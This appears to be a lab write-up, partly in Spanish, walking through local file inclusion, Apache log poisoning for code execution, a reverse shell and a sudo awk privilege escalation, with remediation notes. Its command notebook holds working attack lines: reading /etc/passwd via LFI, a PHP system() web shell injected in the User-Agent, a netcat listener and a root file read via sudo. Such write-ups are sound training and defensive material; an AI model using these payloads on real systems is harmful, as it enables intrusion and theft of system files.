


Executive summary
La práctica transforma una vulnerabilidad de lectura local en ejecución de comandos mediante envenenamiento de logs de Apache. Después, la enumeración interna descubre credenciales de aplicación y un permiso sudo inseguro que permite leer archivos de root.
Attack path
La aplicación incluye contenido mediante el parámetro page. Una pista hacia access.log permite verificar lectura de logs. Al inyectar PHP en User-Agent y cargar el log vía LFI, se obtiene ejecución como www-data, se lanza shell inversa y se escala mediante un binario permitido en sudo.
Recruiter signal
Este writeup destaca porque no se queda en la vulnerabilidad inicial: explica cómo aumentar impacto, pivotar desde web a sistema y cerrar con mitigaciones aplicables.
Command notebook
Comandos representativos del laboratorio. Los valores sensibles se han sustituido por placeholders.
nmap -sV -sC -p- <target>
curl "http://<target>/index.php?page=/etc/passwd"
curl -A "<?php system($_GET['cmd']); ?>" http://<target>/index.php
curl "http://<target>/index.php?page=/var/log/apache2/access.log&cmd=id"
nc -lvnp 4444
sudo awk '{print}' /root/root.txtAttack / analysis timeline
Key findings
The page parameter allows arbitrary local file inclusion.
Impacto técnico identificado y validado durante el laboratorio. En una evaluación real se priorizaría por criticidad, explotabilidad y alcance.
Apache logs are readable through the vulnerable include path.
Impacto técnico identificado y validado durante el laboratorio. En una evaluación real se priorizaría por criticidad, explotabilidad y alcance.
User-controlled headers reach an interpreted context.
Impacto técnico identificado y validado durante el laboratorio. En una evaluación real se priorizaría por criticidad, explotabilidad y alcance.
A sudo rule for awk enables privileged file read.
Impacto técnico identificado y validado durante el laboratorio. En una evaluación real se priorizaría por criticidad, explotabilidad y alcance.
Visual evidence


Remediation notes
- Map page values to fixed templates only.
- Harden log permissions and avoid interpreting log content.
- Remove dangerous sudo rules and use least privilege.
- Never store reusable credentials in web application config files.